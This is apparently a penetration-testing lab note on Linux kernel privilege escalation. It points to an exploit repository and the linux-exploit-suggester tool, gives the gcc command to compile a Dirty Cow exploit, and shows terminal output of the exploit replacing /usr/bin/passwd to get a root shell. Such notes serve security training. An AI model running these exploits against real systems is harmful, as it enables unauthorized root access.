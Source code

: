 
Kernel Exploits - https://github.com/lucyoa/kernel-exploits

Use this page to check for kernel exploits against the kernel information you grabbed from `uname -a`

You can also run the linux exploit suggestor from the Automated tools section

`./linux-exploit-suggester`      - you'll need to get this onto the victim device and make it executable.

If you get things that need to be compiled, such as exploits in .c, you can use the following command to compile it so you can run it.

`gcc -pthread cOw.c -o cow`

This is for a well known vulnerability called Dirty Cow.  For this one, you'll actually get the script to run, it will look like it didn't work but if you type in `passwd`, you get this....

```
TCM@debian:~/tools/dirtycow$ ./cow 
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 9517b000

madvise 0

ptrace 0

TCM@debian:~/tools/dirtycow$ id
uid=1000(TCM) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
TCM@debian:~/tools/dirtycow$ whoami
TCM
TCM@debian:~/tools/dirtycow$ passwd
root@debian:/home/user/tools/dirtycow# whoami
root
root@debian:/home/user/tools/dirtycow# 
```

Now I have root.

If something feels like it may not be working, check documentation on that tool.  There may be more steps.  